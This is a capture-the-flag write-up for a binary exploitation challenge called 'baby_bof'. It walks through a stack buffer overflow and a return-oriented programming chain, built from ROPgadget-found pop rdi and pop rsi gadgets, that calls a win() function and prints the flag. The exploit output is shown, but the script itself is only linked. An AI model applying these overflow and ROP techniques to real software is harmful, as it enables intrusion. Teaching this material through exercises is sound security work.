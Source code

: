 # Day 17

> Santa made available a service that accepts only the best of jokes. Try it out, binary is available and service is listening at elfs.owasp.si:40003.

[baby_bof](baby_bof)

Binary exploitation challenge. Let's analyze the file in Ghidra:

![disassembly in Ghidra](solution/ghidra.png)

In order to get a flag, we need to jump to `win()` by using usual buffer overflow, while setting `EDI` and `ESI` registers to `0xdeadbeef` and `0x1337c0de`, respectively.

For the first step, we are going to use usual buffer overflow in `fgets` of `vuln()` function (60 bytes).

For the second step, we need to find some instructions in the binary itself which set `EDI` and `ESI` registers to a needed value. These instructions set which ends with `ret` instructions are named "gadgets" and are crucial part of [Return-oriented programming (ROP)](https://en.wikipedia.org/wiki/Return-oriented_programming).

I used [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) tool to find needed ROP gadgets:

```
$ ROPgadget.py --binary baby_bof | grep -E 'pop (.di|.si)'
0x0000000000400783 : pop rdi ; ret
0x0000000000400781 : pop rsi ; pop r15 ; ret
```

We needed EDI/ESI registers, but RDI/RSI would also work fine, we just need to add more bytes on the stack.

The exploit works this way: normal buffer overflow, setting EDI with a 0x400783 gadget, setting ESI with a 0x400781 gadget, adding address of `win()` to return there.

See the [full exploit](solution/solution.py) and the usage:

```
$ ./solution.py
[*] '../baby_bof'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to elfs.owasp.si on port 40003: Done
b'will need more than a simple joke this time...\n'
b'will this work?\n'
b'you made it to win land, no free handouts this time, try harder\n'
b'one down, one to go!\n'
b'2/2 bro good job\n'
[*] Switching to interactive mode
$ cat flag.txt
xmas{-BAby-Pl1s-CXme-H0me}
```
